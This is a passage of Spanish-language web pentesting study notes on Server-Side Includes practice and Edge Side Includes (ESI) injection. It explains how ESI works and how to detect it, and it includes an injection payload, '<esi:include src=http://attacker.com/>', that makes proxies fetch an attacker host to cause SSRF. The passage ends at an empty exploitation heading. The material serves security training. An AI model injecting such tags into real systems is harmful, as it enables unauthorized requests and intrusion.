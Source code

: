 #### Práctica de SSI <a href="#ssi-practice" id="ssi-practice"></a>

Puedes practicar aquí:

```
https://www.owasp.org/index.php/OWASP_Broken_Web_Applications_Project
```

### Incluye el lado del borde (ESI) <a href="#edge-side-includes-esi" id="edge-side-includes-esi"></a>

Los proxies y otras infraestructuras intermedias similares los utilizan

* Las aplicaciones web modernas suelen constar de varios servidores intermedios antes de que las solicitudes de los usuarios lleguen al servidor de aplicaciones final. Deberíamos intentar interactuar con dicha infraestructura intermedia inyectando algunas etiquetas ESI a nuestras solicitudes
* ESI tiene una forma de etiquetas XML, que se agregan dinámicamente al contenido estático almacenado en caché para enriquecerlo con algunas características dinámicas.
* Las etiquetas ESI se inyectan mediante mecanismos de caché para otros mecanismos de caché; Sin embargo, si un usuario puede agregar etiquetas ESI a la solicitud HTTP, los proxies podrían analizarla sin conocer su origen.

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/60.png)

#### Expresiones ESI <a href="#esi-expressions" id="esi-expressions"></a>

Ejemplo:

```
<esi:include src="/weather/name?id=$(QUERY_STRING{city_id})"/>
```

#### Detección de ESI <a href="#esi-detection" id="esi-detection"></a>

En la mayoría de los casos, el uso de un enfoque de ataque ciego

Si ves el encabezado:

```
Surrogate-Control: content="ESI/1.0"
# in this case, u can suspect that ESI is in use. 
# However, in most cases, there will be no sign of using ESI
```

Para detectar con el enfoque ciego, el usuario puede intentar inyectar etiquetas que hagan que los proxies resuelvan direcciones arbitrarias que resulten en SSRF:

```
<esi:include src=http://attacker.com/>
```

#### Explotación de ESI <a href="#esi-exploitation" id="esi-exploitation"></a>
